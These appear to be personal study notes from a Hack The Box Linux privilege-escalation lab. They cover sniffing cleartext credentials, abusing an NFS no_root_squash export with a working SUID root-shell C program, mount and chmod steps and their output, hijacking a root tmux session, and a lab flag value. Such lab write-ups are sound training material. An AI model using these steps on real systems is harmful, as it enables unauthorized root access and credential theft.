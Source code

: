 # Miscellaneous Techniques

## Passive Traffic Capture

* &#x20;If `tcpdump` is installed, low priv users may capture credentials in cleartext over the network.&#x20;
* [net-creds](https://github.com/DanMcInerney/net-creds) and [PCredz](https://github.com/lgandx/PCredz) can be used to examine data being passed on the wire.
  * Resulting in capturing sensitive information such as credit card numbers and SNMP community strings.&#x20;
  * also possible to capture Net-NTLMv2, SMBv2, or Kerberos hashes, which could then be brute-forced.&#x20;
* Cleartext protocols such as HTTP, FTP, POP, IMAP, telnet, or SMTP may contain credentials that could be reused to escalate privileges on the host.

## Weak NFS Privileges

&#x20;`showmount -e` lists the NFS server's export list (or the access control list for filesystems) that NFS clients.

```bash
showmount -e 10.129.2.12

Export list for 10.129.2.12:
/tmp             *
/var/nfs/general *
```

When an NFS volume is created, various options can be set:

<table><thead><tr><th width="196">Option</th><th>Description</th></tr></thead><tbody><tr><td><code>root_squash</code></td><td>If the root user is used to access NFS shares, it will be changed to the <code>nfsnobody</code> user, which is an unprivileged account. Any files created and uploaded by the root user will be owned by the <code>nfsnobody</code> user, which prevents an attacker from uploading binaries with the SUID bit set.</td></tr><tr><td><code>no_root_squash</code></td><td>Remote users connecting to the share as the local root user will be able to create files on the NFS server as the root user. This would allow for the creation of malicious scripts/programs with the SUID bit set.</td></tr></tbody></table>

```bash
htb@NIX02:~$ cat /etc/exports

# /etc/exports: the access control list for filesystems which may be exported
#		to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/var/nfs/general *(rw,no_root_squash)
/tmp *(rw,no_root_squash)
```

For example, we can create a SETUID binary that executes `/bin/sh` using our local root user. We can then mount the `/tmp` directory locally, copy the root-owned binary over to the NFS server, and set the SUID bit.

Create a simple binary, mount the directory locally, copy it, and set the necessary permissions.

```shell-session
htb@NIX02:~$ cat shell.c 

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```

```shell-session
htb@NIX02:/tmp$ gcc shell.c -o shell
```

```shell-session
root@Pwnbox:~$ sudo mount -t nfs 10.129.2.12:/tmp /mnt
root@Pwnbox:~$ cp shell /mnt
root@Pwnbox:~$ chmod u+s /mnt/shell
```

When we switch back to the host's low privileged session, we can execute the binary and obtain a root shell.

```shell-session
htb@NIX02:/tmp$  ls -la

total 68
drwxrwxrwt 10 root  root   4096 Sep  1 06:15 .
drwxr-xr-x 24 root  root   4096 Aug 31 02:24 ..
drwxrwxrwt  2 root  root   4096 Sep  1 05:35 .font-unix
drwxrwxrwt  2 root  root   4096 Sep  1 05:35 .ICE-unix
-rwsr-xr-x  1 root  root  16712 Sep  1 06:15 shell
<SNIP>
```

```shell-session
htb@NIX02:/tmp$ ./shell
root@NIX02:/tmp# id

uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1000(htb)
```

## Hijacking Tmux Sessions

&#x20;When not working in a `tmux` window, we can detach from the session, still leaving it active (i.e., running an `nmap` scan). For many reasons, a user may leave a `tmux` process running as a privileged user, such as root set up with weak permissions, and can be hijacked. This may be done with the following commands to create a new shared session and modify the ownership.

```shell-session
htb@NIX02:~$ tmux -S /shareds new -s debugsess
htb@NIX02:~$ chown root:devs /shareds
```

If we can compromise a user in the `dev` group, we can attach to this session and gain root access.

Check for any running `tmux` processes.

```shell-session
htb@NIX02:~$  ps aux | grep tmux

root      4806  0.0  0.1  29416  3204 ?        Ss   06:27   0:00 tmux -S /shareds new -s debugsess
```

Confirm permissions.

```shell-session
htb@NIX02:~$ ls -la /shareds 

srw-rw---- 1 root devs 0 Sep  1 06:27 /shareds
```

Review our group membership.

```shell-session
htb@NIX02:~$ id

uid=1000(htb) gid=1000(htb) groups=1000(htb),1011(devs)
```

Finally, attach to the `tmux` session and confirm root privileges.

```shell-session
htb@NIX02:~$ tmux -S /shareds

id

uid=0(root) gid=0(root) groups=0(root)
```

## Assessment

Review the NFS server's export list and find a directory holding a flag.

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption><p>fc8c065b9384beaa162afe436a694acf</p></figcaption></figure>

Tried every way to get root using the c code but no luck not sure what went wrong, the code could be executed and the new shell session was spawned everytime but just didn't spawned as root 😢

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption><p>when chmod the file, we have to be root!!!!!</p></figcaption></figure>

<mark style="color:red;">**Don't forget to sudo su before chmod the shell!!!**</mark>
